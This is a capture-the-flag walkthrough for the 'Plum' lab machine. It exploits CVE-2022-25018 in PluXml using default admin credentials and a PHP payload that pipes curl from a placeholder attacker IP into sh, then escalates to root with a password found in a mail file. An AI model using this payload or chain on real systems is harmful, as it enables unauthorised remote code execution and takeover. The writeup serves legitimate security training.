 _____
# Walkthrough for Plum

# Enumeration

## Nmap

With nmap scan, we notice a web server on the target machine.

Visiting the web page, we are presented with "**PluXml**" landing static page.

## PluXml

> is a blog / CMS that uses XML instead of an SQL database to store its data.

# Exploitation

## Remote Code Execution

We find **"[CVE-2022-25018](https://nvd.nist.gov/vuln/detail/CVE-2022-25018)"** recorded for **PluXml**.

The exploitation steps can be found here: https://github.com/MoritzHuppert/CVE-2022-25018/blob/main/CVE-2022-25018.pdf

**Reference**: https://nvd.nist.gov/vuln/detail/CVE-2022-25018

#### Description: CVE-2022-25018

Pluxml v5.8.7 was discovered to allow attackers to execute arbitrary code via crafted PHP code inserted into static pages.

## POC

Visit webserver and find the link highlighted as administration.

Web server is protected by a weak password. Credentia below

```bash
admin:admin
```

Visit "**Static pages**" then click on "**edit**" to edit the static page

Erase all the content of the page and put your malicious php payload.

```php
<?php
   system("curl <IP>/x |sh");
?>
```

Save the page, And click on action "**see**"

You should get code execution

# Privilege Escalation

After some enumeration, we find a mail that has the credential for root user.

```
$ cd /var/mail
$ ls -alh
total 12K
drwxrwsr-x  2 root     mail 4.0K Aug 25 06:31 .
drwxr-xr-x 12 root     root 4.0K Aug 25 05:57 ..
-rw-rw----  1 www-data mail  746 Aug 25 06:31 www-data
```

```
$cat www-data
From root@localhost Fri Aug 25 06:31:47 2023
Return-path: <root@localhost>
Envelope-to: www-data@localhost
Delivery-date: Fri, 25 Aug 2023 06:31:47 -0400
Received: from root by localhost with local (Exim 4.94.2)
	(envelope-from <root@localhost>)
	id 1qZU6V-0000El-Pw
	for www-data@localhost; Fri, 25 Aug 2023 06:31:47 -0400
To: www-data@localhost
From: root@localhost
Subject: URGENT - DDOS ATTACK"
Reply-to: root@localhost
Message-Id: <E1qZU6V-0000El-Pw@localhost>
Date: Fri, 25 Aug 2023 06:31:47 -0400

We are under attack. We've been targeted by an extremely complicated and sophisicated DDOS attack. I trust your skills. Please save us from this. Here are the credentials for the root user:
root:6s8kaZZNaZZYBMfh2YEW
Thanks,
Administrator
```

```
$ su root
Password: 6s8kaZZNaZZYBMfh2YEW
id
uid=0(root) gid=0(root) groups=0(root)
```